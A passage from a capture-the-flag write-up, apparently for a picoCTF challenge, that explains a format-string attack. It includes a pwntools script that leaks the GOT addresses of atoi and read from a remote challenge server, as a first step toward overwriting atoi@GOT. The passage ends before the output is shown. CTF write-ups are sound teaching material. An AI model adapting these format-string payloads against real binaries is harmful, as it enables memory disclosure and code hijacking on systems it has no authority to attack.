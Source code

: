 ```python
B = "1%43$s$!" + p64(atoi@GOT.plt)
```

- `$!` after `%43$s` is for delimit purpose when we read bytes that is sent from server.

### TURN 2

- Before we overwrite the `atoi@GOT.plt`, we must know that this address are written because of the program is dynamically linked, this address hold the address of atoi in libc with ALSR. So I must find address of least 2 function in this program to specify what libc that this program use.

- By this script, it will print the address of 2 function `atoi` and `read`.

```python
#! /usr/bin/python2
# filename: leaking.py
from pwn import *

p = remote("mars.picoctf.net", 31929)

address_atoi = 0x601058
address_read = 0x601050

A = "1" + "%11$s" + "$!" + p64(address_atoi) 
B = "1" + "%43$s" + "$!" + p64(address_read)

p.recvuntil("A: ")
p.sendline(A)
p.recvuntil("B: ")
p.sendline(B)

p.recvuntil("A: 1")
s_1 = p.recvuntil(b"$!")
s_1 = s_1[:-2]

p.recvuntil("B: 1")
s_2 = p.recvuntil(b"$!")
s_2 = s_2[:-2]

r_1 = 0
r_2 = 0

for i in range(len(s_1)-1, -1, -1):
    r_1 += (ord(s_1[i]) << 8*i)

for i in range(len(s_2)-1, -1, -1):
    r_2 += (ord(s_2[i]) << 8*i)

log.info(str(hex(r_1)))
log.info(str(hex(r_2)))

p.interactive()
```
- And we got
